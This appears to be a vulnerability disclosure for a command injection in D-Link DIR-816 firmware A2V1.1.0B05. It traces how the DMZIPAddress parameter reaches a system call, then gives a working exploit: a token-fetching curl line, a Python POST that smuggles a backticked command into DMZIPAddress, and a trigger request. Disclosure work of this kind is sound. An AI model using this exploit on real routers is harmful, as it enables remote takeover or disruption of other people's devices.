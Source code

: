 ## DIR-816 Command Injection

### Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ：https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

### Affected version

D-Link DIR-816  A2V1.1.0B05 was found to contain a command injection in `/goform/singlePortForwardDelete` of the component Web Interface, which allows remote attackers to execute arbitrary commands via shell.

![image-20250310195139787](./img/1.png)

### Vulnerability details

Vulnerability occurs in `/goform/singlePortForwardDelete`. Attackers can control `v4` by setting the `DMZIPAddress`, then passed its value to `v32`, and finally call the `dosystem`.

![2](C:\Users\dflac_961unic\Desktop\报洞\1\IOTVuln\DIR-816\SinglePortForwardDelete\img\2.png)

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `DMZIPAddress`.

### EXP

First, attackers need to get the token ID.

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Next, set the `DMZIPADDRESS` by access `/goform/DMZ`.

```
import requests

tokenid = ''

url = 'http://192.168.0.1/goform/DMZ'

data = {
    'tokenid': tokenid,
    'DMZIPAddress': "foo`reboot`bar"
}

r = requests.post(url, data)
```

Finally, run the command `reboot` by access `/goform/singlePortForwardDelete`.

```
curl http://192.168.0.1/goform/singlePortForwardDelete
```


